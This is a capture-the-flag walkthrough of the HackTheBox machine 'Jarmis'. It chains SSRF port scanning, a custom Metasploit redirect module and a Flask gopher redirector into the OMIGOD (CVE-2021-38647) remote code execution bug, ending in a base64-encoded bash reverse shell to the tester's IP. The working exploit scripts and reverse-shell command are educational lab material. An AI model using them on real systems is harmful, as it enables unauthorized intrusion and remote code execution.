




Jarmis
Enumeration
PORT STATE SERVICE REASON VERSION
22/tcp open ssh syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 ea:84:21:a3:22:4a:7d:f9:b5:25:51:79:83:a4:f5:f2 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDZBURYGCLr4lZI1F55bUh/6vKCfmeGumtAhhNrg9lH4UNDB/wCjPbD+xovPp3UdbrOgNdqTCdZcOk5rQDyRK2YH6tq8NlP59myIQV/zXC9WQnhxn131jf/KlW78vzWaLfMU+m52e1k+YpomT5PuSMG8EhGwE5bL4o0Jb8Unafn13CJKZ1oj3awp31fRJDzYGhTjl910PROJAzlOQinxRYdUkc4ZT0qZRohNlecGVsKPpP+2Ql+gVuusUEQt7gPFPBNKw3aLtbLVTlgEW09RB9KZe6Fuh8JszZhlRpIXDf9b2O0rINAyek8etQyFFfxkDBVueZA50wjBjtgOtxLRkvfqlxWS8R75Urz8AR2Nr23AcAGheIfYPgG8HzBsUuSN5fI8jsBCekYf/ZjPA/YDM4aiyHbUWfCyjTqtAVTf3P4iqbEkw9DONGeohBlyTtEIN7pY3YM5X3UuEFIgCjlqyjLw6QTL4cGC5zBbrZml7eZQTcmgzfU6pu220wRo5GtQ3U=
| 256 b8:39:9e:f4:88:be:aa:01:73:2d:10:fb:44:7f:84:61 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJZPKXFj3JfSmJZFAHDyqUDFHLHBRBRvlesLRVAqq0WwRFbeYdKwVIVv0DBufhYXHHcUSsBRw3/on9QM24kymD0=
| 256 22:21:e9:f4:85:90:87:45:16:1f:73:36:41:ee:3b:32 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEDIBMvrXLaYc6DXKPZaypaAv4yZ3DNLe1YaBpbpB8aY
80/tcp open http syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
| http-methods:
|_ Supported Methods: GET HEAD
|_http-favicon: Unknown favicon MD5: C92B85A5B907C70211F4EC25E29A8C4A
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Jarmis
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
From the nmapscan, we see two ports open, one running ssh and the other one http -> we can immediately head over to the website and see what is running:
Upon getting to the landing page of the website, we only see:

We can then get the GETrequest with BurpSuiteand we see:
GET / HTTP/1.1
Host: 10.129.95.238
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
If-Modified-Since: Wed, 22 Sep 2021 03:31:17 GMT
If-None-Match: W/"614aa385-8ce"
After checking the requests made in BurpSuiteagain, we also notice a GETrequest to jarmis.htb:
GET /openapi.json HTTP/1.1
Host: jarmis.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.129.95.238/
Origin: http://10.129.95.238
Connection: keep-alive
We can then add jarmis.htbto our /etc/hostsfile with:
echo "10.129.95.238 jarmis.htb" | sudo tee -a /etc/hosts
In the response of the jarmisrequest, we see that it loads Jarmis APIthat has the description:
"openapi":"3.0.2",
"info":{
"title":"Jarmis API",
"description":"\nJarmis helps identify malicious TLS Services by checking JARM Signatures and Metadata.\n\n## What is a jarm?\n\n* 62 Character non-random fingerprint of an SSL Service.\n* First 30 characters are Cipher and TLS Versions.\n* Last 32 characters are truncated Sha256 Hash of extensions.\n\n## Jarm Collisions\n\n* The first 30 characters, it's the same SSL Configuration.\n* The last 32 characters, it's the same server. \n* Full collisions are possible. That is why this service also utilzies metadata when deconfliction is necessary.\n\nBackend coded by ippsec\n",
"version":"0.1.0"
},...
==> Then, when going to http://jarmis.htb, we are greeted by this page:

At this point I had to read a bit about JARMas I wasn’t familiar with it, and I found some info on this website:
The JARM module attempts to actively fingerprint an SSL/TLS server via a series of TLS Client Hello packets to extract specific responses that can be used to quickly identify default applications or malware.
==> Then, we can do some exploring of the new functionalities offered by this page. There are 3 possibilities:
- Search Id
- Search signature
- Fetch
jarm
-> The first one allows to search for an id (integer) and returns the JSON details for the JARMsignature:

-> The Fetch jarmfunctionality seems interesting as we can input a url to it. We can test it with:

and we get a callback on our listener!!
rlwrap nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.146] from (UNKNOWN) [10.129.95.238] 40252
E$J [OQJqwPdEs3, Tz18_'qAu|nd|3g9kEĚ #+
$,rs'/(0`avw
/<5=A
10.10.14.146
3&$ оz2ch2spdy/3spdy/2spdy/http/1.http/1.http/0.9
BAWui$?Z S
BAWui$?Z S
We can see that after the successful connections have been made, we get a signature that will be updated to the database.
==> At this point I got stuck for a while and decided to go back to basic web enumeration, checking for other vhosts or sub directories:
gobuster vhost -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -u http://jarmis.htb
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://jarmis.htb
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /usr/share/SecLists/Discovery/DNS/subdomains-top1million-20000.txt
[+] User Agent: gobuster/3.6
[+] Timeout: 10s
[+] Append Domain: false
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Progress: 19966 / 19967 (99.99%)
===============================================================
Finished
===============================================================
And while gobusterdid not yield any results, dirsearchgot some files:
dirsearch -u http://jarmis.htb
_|. _ _ _ _ _ _|_ v0.4.3
(_||| _) (/_(_|| (_| )
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460
Output File:
Target: http://jarmis.htb/
[21:56:34] Starting:
[21:56:46] 301 - 178B - /api -> http://jarmis.htb/api/
[21:56:52] 307 - 0B - /docs/ -> http://jarmis.htb/docs
[21:56:52] 200 - 967B - /docs
[21:56:53] 200 - 4KB - /favicon.ico
[21:56:58] 200 - 492B - /manifest.json
[21:57:01] 200 - 5KB - /openapi.json
[21:57:04] 200 - 770B - /redoc
[21:57:05] 200 - 67B - /robots.txt
[21:57:08] 301 - 178B - /static -> http://jarmis.htb/static/
Task Completed
We notice the /docs endpoint, which actually contains the documentation for the JARM API:

And looking at the details of the Fetch JARMendpoint, we see this:
Query an endpoint to retrieve its JARM and grab metadata if malicious.
==> To grab the metadata, there must be a connection made to the server –> we can then try to see if we can get access to it.
Exploitation
We can then craft a cURLrequest to scan for open ports on the server:
curl http://jarmis.htb/api/v1/fetch?endpoint=http://localhost:20
{"sig":"00000000000000000000000000000000000000000000000000000000000000","endpoint":"null","note":"localhost"}
curl http://jarmis.htb/api/v1/fetch?endpoint=http://localhost:22
{"sig":"00000000000000000000000000000000000000000000000000000000000000","endpoint":"127.0.0.1:22","note":"localhost"}
and since we know that port 22 is running on the host, we can see a difference in the response depending on if the port is open or closed. ==> We can then craft a ffufwordlist to enumerate open ports on the machine:
seq 65435 > ports.txt
ffuf -w ports.txt -u "http://jarmis.htb/api/v1/fetch?endpoint=http://localhost:FUZZ" -fs 109
/'___\ /'___\ /'___\
/\ \__/ /\ \__/ __ __ /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\ \ \_\ \ \____/ \ \_\
\/_/ \/_/ \/___/ \/_/
v2.1.0-dev
________________________________________________
:: Method : GET
:: URL : http://jarmis.htb/api/v1/fetch?endpoint=http://localhost:FUZZ
:: Wordlist : FUZZ: /home/flavien/Desktop/HTB_CTFs/Machines/Retired/Hard/Jarmis/ports.txt
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 40
:: Matcher : Response status: 200-299,301,302,307,401,403,405,500
:: Filter : Response size: 109
________________________________________________
22 [Status: 200, Size: 117, Words: 1, Lines: 1, Duration: 204ms]
80 [Status: 200, Size: 117, Words: 1, Lines: 1, Duration: 90ms]
5985 [Status: 200, Size: 119, Words: 1, Lines: 1, Duration: 165ms]
5986 [Status: 200, Size: 119, Words: 1, Lines: 1, Duration: 165ms]
8001 [Status: 200, Size: 119, Words: 1, Lines: 1, Duration: 630ms]
and we discover 2 new open ports: 5985 , 5986 and 8001
==> Ports 5985 and 5986 immediately stand out as they are typically the ports used for WinRMbut this is a Linux host -> after some research, we discover that this is usually handled with Open Management Infrastructure and doing some more research, we discover CVE-2021-38647 which timeline coincides with the box’s release.
We can look at some scripts and the documentation of this attack to see that we need to make a POSTrequest to the end server. We then need to figure out a way to do so as currently it is only accessible through the cURL request.
def exploit(target, command):
headers = {'Content-Type': 'application/soap+xml;charset=UTF-8'}
r = requests.post(f'https://{target}:5986/wsman', headers=headers, data=DATA.format(command), verify=False)
output = re.search('<p:StdOut>(.*)</p:StdOut>', r.text)
error = re.search('<p:StdErr>(.*)</p:StdErr>', r.text)
if output:
if output.group(1):
print(output.group(1).rstrip(' '))
if error:
if error.group(1):
print(error.group(1).rstrip(' '))
if __name__ == '__main__':
parser = argparse.ArgumentParser()
parser.add_argument('-t', '--target', help='The IP address of the target', required=True)
parser.add_argument('-c', '--command', help='The command to run')
args = parser.parse_args()
exploit(args.target, args.command)
==> We can do some more enumeration on the /searchendpoint as we can dump the database there by requesting all of the different ids on the server:
curl http://jarmis.htb/api/v1/search/id/222
{"id":222,"sig":"27d27d27d00027d1dc27d27d27d27d3446fb8839649f251e5083970c44ad30","ismalicious":false,"endpoint":"47.246.24.234:443","note":"login.tmall.com"}
and after some easy trial and error, we discover that there are 222 entries -> we can make a small bash script to retrieve all of them:
#!/bin/bash
output_file="results.json"
echo "[" > "$output_file"
for id in $(seq 0 222); do
response=$(curl -s "http://jarmis.htb/api/v1/search/id/$id")
echo "$response," >> "$output_file"
done
sed -i '$ s/,$//' "$output_file"
echo "]" >> "$output_file"
echo "Results saved to $output_file"
With this script executed, we now have the entire database in the file results.json
-> We can then filter to display only the ones deemed malicious:
cat results.json | jq '.[] | select(.ismalicious==true)'
{
"id": 95,
"sig": "2ad2ad00000000000043d2ad2ad43dc4b09cccb7c1d19522df9b67bf57f4fb",
"ismalicious": true,
"endpoint": "104.24.4.98",
"note": "Sliver",
"server": "Apache/2.4.40"
}
{
"id": 128,
"sig": "2ad2ad0002ad2ad00042d42d000000ad9bf51cc3f5a1e29eecb81d0c7b06eb",
"ismalicious": true,
"endpoint": "185.199.109.153",
"note": "SilentTrinity",
"server": ""
}
{
"id": 135,
"sig": "21d000000000000000000000000000eeebf944d0b023a00f510f06a29b4f46",
"ismalicious": true,
"endpoint": "104.24.4.98",
"note": "Ncat",
"server": ""
}
{
"id": 154,
"sig": "07d14d16d21d21d00042d43d000000aa99ce74e2c6d013c745aa52b5cc042d",
"ismalicious": true,
"endpoint": "99.86.230.31",
"note": "Metasploit",
"server": "apache"
}
{
"id": 170,
"sig": "22b22b09b22b22b22b22b22b22b22b352842cd5d6b0278445702035e06875c",
"ismalicious": true,
"endpoint": "94.140.114.239",
"note": "Trickbot",
"server": "Cowboy"
}
{
"id": 174,
"sig": "29d21b20d29d29d21c41d21b21b41d494e0df9532e75299f15ba73156cee38",
"ismalicious": true,
"endpoint": "192.64.119.215",
"note": null,
"server": ""
}
{
"id": 178,
"sig": "1dd40d40d00040d1dc1dd40d1dd40d3df2d6a0c2caaa0dc59908f0d3602943",
"ismalicious": true,
"endpoint": "192.145.239.18",
"note": "AsyncRAT",
"server": ""
}
{
"id": 179,
"sig": "2ad2ad0002ad2ad00043d2ad2ad43da5207249a18099be84ef3c8811adc883",
"ismalicious": true,
"endpoint": "94.140.114.239",
"note": "Sliver",
"server": "Apache/2.4.38"
}
{
"id": 184,
"sig": "28d28d28d00028d00041d28d28d41dd279b0cf765af27fa62e66d7c8281124",
"ismalicious": true,
"endpoint": "51.136.77.112",
"note": "Gophish",
"server": "nginx"
}
{
"id": 197,
"sig": "07d14d16d21d21d07c42d41d00041d24a458a375eef0c576d23a7bab9a9fb1",
"ismalicious": true,
"endpoint": "104.17.237.190",
"note": "CobaltStrike",
"server": ""
}
and we see a few ones. We can apply even more filtering by using this next command to only display the noteand the idof each malicious entry:
cat results.json | jq -c '.[] | select(.ismalicious==true) | [.id, .note]'
[95,"Sliver"]
[128,"SilentTrinity"]
[135,"Ncat"]
[154,"Metasploit"]
[170,"Trickbot"]
[174,null]
[178,"AsyncRAT"]
[179,"Sliver"]
[184,"Gophish"]
[197,"CobaltStrike"]
And one of the entry immediately jumps out as it has Metasploitin its name –> this might mean that a connection to it will respond to us!!
==> This next part was really difficult as it is pretty hard and I did not have much experience with this. The next goal is to try and get a connection to our Metasploitrunning locally. To do so, we can first setup a /multi/handlerwith:
sudo msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_https
set LHOST tun0
set LPORT 443
We can also open WireSharkand observe the requests made when we query the database:

and we do see the 10 requests that JARMis supposed to make. Interestingly, when our request is deemed malicious then there is a 12th TCPstream Running the command on our server gives us this result:
curl http://jarmis.htb/api/v1/fetch?endpoint=http://10.10.14.146:443 | jq .
{
"sig": "07d19d12d21d21d07c42d43d000000f50d155305214cf247147c43c0f1a823",
"ismalicious": true,
"endpoint": "10.10.14.146:443",
"note": "Metasploit",
"server": "Apache"
}
We also see that other than the TLSstreams that we cannot read, the last TCPstream (when our input is malicious) can be read:

As mentioned in the /fetchAPI documentation, the extra TLSstream is to fetch information on the server. –> We can then try to capture it!
To do so, we can use the /server/capture/http:
use auxiliary/server/capture/http
set ssl true
set srvport 443
run
and upon querying the database again, we see a slightly different response from the server:
curl -s -X 'GET' 'http://jarmis.htb/api/v1/fetch?endpoint=10.10.14.146' -H 'accept: application/json' | jq
{
"sig": "07d19d12d21d21d07c42d43d000000f50d155305214cf247147c43c0f1a823",
"ismalicious": false,
"endpoint": "10.10.14.146:443",
"note": "Metasploit?",
"server": ""
}
and on our server, we see this:
msf6 auxiliary(server/capture/http) >
[*] HTTP REQUEST 10.129.95.238 > 10.10.14.146:80 GET / Unknown cookies=
Now comes the atrocious part, we need to create a custom Metasploitmodule to see if we can redirect the 11th request. The process to do so is the following:
Metasploit custom module
We need to create a new directory for our module, and add a script there:
sudo mkdir -p /root/.msf4/modules/auxiliary/server/
sudo cp /usr/share/metasploit-framework/modules/auxiliary/server/capture/http_basic.rb
/root/.msf4/modules/auxiliary/server/jarmisRedirect.rb
Now that this is done, we can then transform the full script and keep this part. The script can be downloaded from 0xdf’s website
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##
class MetasploitModule < Msf::Auxiliary
include Msf::Exploit::Remote::HttpServer::HTML
include Msf::Auxiliary::Report
def initialize(info={})
super(update_info(info,
'Name' => 'Redirect Jarmis Scanner to something else',
'Description' => %q{
The Jarmis Scanner will try to collect content from a server it detects as a known
malicious JARM. MSF is that, and therefore this module will redirect that last request
to some other url for SSRF.
},
'Author' => ['0xdf'],
'License' => MSF_LICENSE,
'Actions' =>
[
[ 'Redirect', 'Description' => 'Run redirect web server' ]
],
'PassiveActions' =>
[
'Redirect'
],
'DefaultAction' => 'Redirect'
))
register_options(
[
OptPort.new('SRVPORT', [ true, "The local port to listen on.", 443 ]),
OptString.new('RedirectURL', [ true, "The page to redirect users to" ]),
OptBool.new('SSL', [ true, "Negotiate SSL for incoming connections", true])
])
end
# Not compatible today
def support_ipv6?
false
end
def run
@myhost = datastore['SRVHOST']
@myport = datastore['SRVPORT']
exploit
end
def on_request_uri(cli, req)
if datastore['RedirectURL']
print_status("Redirecting client #{cli.peerhost} to #{datastore['RedirectURL']}")
send_redirect(cli, datastore['RedirectURL'])
else
send_not_found(cli)
end
end
end
We can then use this module by using the following commands:
msf6 > search jarmis
Matching Modules
================
# Name Disclosure Date Rank Check Description
- ---- --------------- ---- ----- -----------
0 auxiliary/server/jarmisRedirect . normal No Redirect Jarmis Scanner to something else
msf6 > use 0
msf6 auxiliary(server/jarmisRedirect) > set ssl true
ssl => true
msf6 auxiliary(server/jarmisRedirect) > set srvport 443
srvport => 443
msf6 auxiliary(server/jarmisRedirect) > set srvhost tun0
srvhost => 10.10.14.146
msf6 auxiliary(server/jarmisRedirect) > set redirecturl http://10.10.14.146/test
redirecturl => http://10.10.14.146/test
msf6 auxiliary(server/jarmisRedirect) > run
[*] Auxiliary module running as background job 0.
msf6 auxiliary(server/jarmisRedirect) >
[*] Using URL: https://10.10.14.146/FrLyx9g
[*] Server started.
And when running it, we get a new url that we can use, in our case it is: https://10.10.14.146/FrLyx9g
==> Now to complete the redirection, we need to run this custom module alongside a python web server and pass this crafted url to jarmis:
curl -s -X 'GET' 'http://jarmis.htb/api/v1/fetch?endpoint=https://10.10.14.146/FrLyx9g' -H 'accept: application/json' | jq
{
"sig": "07d19d12d21d21d07c42d43d000000f50d155305214cf247147c43c0f1a823",
"ismalicious": false,
"endpoint": "10.10.14.146:443",
"note": "Metasploit?",
"server": ""
}
msf6 auxiliary(server/jarmisRedirect) >
[*] Redirecting client 10.129.95.238 to http://10.10.14.146/test
[*] Redirecting client 10.129.95.238 to http://10.10.14.146/test
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.95.238 - - [20/Dec/2024 09:50:52] code 404, message File not found
10.129.95.238 - - [20/Dec/2024 09:50:52] "GET /test HTTP/1.1" 404 -
Here we see that the redirection was successful!! We now have the means to try and use the OMIGODvulnerability
==> The last hard part is now to create a custom server that will redirect the jarmisrequest as a POST –> we can use Flaskto do so.
We will then want to have Metasploit redirect to our python server, we can then create it and set a new redirecturlfield:
msf6 auxiliary(server/jarmisRedirect) > set redirecturl https://10.10.14.146:8443
redirecturl => https://10.10.14.146:8443
from flask import Flask, redirect
from urllib.parse import quote
app = Flask(__name__)
@app.route('/')
def root():
return redirect('http://10.10.14.146', code=301)
if __name__ == "__main__":
app.run(ssl_context='adhoc', debug=True, host="0.0.0.0", port=8443)
So then when the request arrives, it follows this path:
Metasploit-> Python server -> netcat listening on port 80

The final step is to find a way to make the request go back to the server on port 5985
Gopher
We can use gopherfor this and the first step is to replace the url in our server file:
return redirect(f'gopher://10.10.14.146:5985/_test', code=301)
nc -lnvp 5985
And we see that the redirection is indeed working => the last step is to get a reverse shell from this.
Adding reverse shell
Now in order to get access on the server, we need to add the reverse shell by taking the DATAand REQUESTfields from the POC and add a reverse shell command:
echo 'bash -i >& /dev/tcp/10.10.14.146/4444 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNDYvNDQ0NCAwPiYxCg==
and then we can modify our server to redirect this command to the remote server and listen on port 4444 to get a reverse shell, here is the last script for server.py:
from flask import Flask, redirect
from urllib.parse import quote
app = Flask(__name__)
DATA = """<s:Envelope xmlns:s="http://www.w3.org/2003/05/soap-envelope" xmlns:a="http://schemas.xmlsoap.org/ws/2004/08/addressing" xmlns:h="http://schemas.microsoft.com/wbem/wsman/1/windows/shell" xmlns:n="http://schemas.xmlsoap.org/ws/2004/09/enumeration" xmlns:p="http://schemas.microsoft.com/wbem/wsman/1/wsman.xsd" xmlns:w="http://schemas.dmtf.org/wbem/wsman/1/wsman.xsd" xmlns:xsi="http://www.w3.org/2001/XMLSchema">
<s:Header>
<a:To>HTTP://192.168.1.1:5986/wsman/</a:To>
<w:ResourceURI s:mustUnderstand="true">http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem</w:ResourceURI>
<a:ReplyTo>
<a:Address s:mustUnderstand="true">http://schemas.xmlsoap.org/ws/2004/08/addressing/role/anonymous</a:Address>
</a:ReplyTo>
<a:Action>http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem/ExecuteShellCommand</a:Action>
<w:MaxEnvelopeSize s:mustUnderstand="true">102400</w:MaxEnvelopeSize>
<a:MessageID>uuid:0AB58087-C2C3-0005-0000-000000010000</a:MessageID>
<w:OperationTimeout>PT1M30S</w:OperationTimeout>
<w:Locale xml:lang="en-us" s:mustUnderstand="false" />
<p:DataLocale xml:lang="en-us" s:mustUnderstand="false" />
<w:OptionSet s:mustUnderstand="true" />
<w:SelectorSet>
<w:Selector Name="__cimnamespace">root/scx</w:Selector>
</w:SelectorSet>
</s:Header>
<s:Body>
<p:ExecuteShellCommand_INPUT xmlns:p="http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem">
<p:command>{}</p:command>
<p:timeout>0</p:timeout>
</p:ExecuteShellCommand_INPUT>
</s:Body>
</s:Envelope>
"""
REQUEST = """POST / HTTP/1.1\r
Host: localhost:5985\r
User-Agent: curl/7.74.0\r
Content-Length: {length}\r
Content-Type: application/soap+xml;charset=UTF-8\r
\r
{body}"""
@app.route('/')
def root():
cmd = "echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNDYvNDQ0NCAwPiYxCg==' | base64 -d | bash"
data = DATA.format(cmd)
req = REQUEST.format(length=len(data)+2, body=data)
enc_req = quote(req, safe='')
return redirect(f'gopher://127.0.0.1:5985/_{enc_req}', code=301)
if __name__ == "__main__":
app.run(ssl_context='adhoc', debug=True, host="0.0.0.0", port=8443)
and upon running all of this together, we get:

And from here we can get the root and user flags!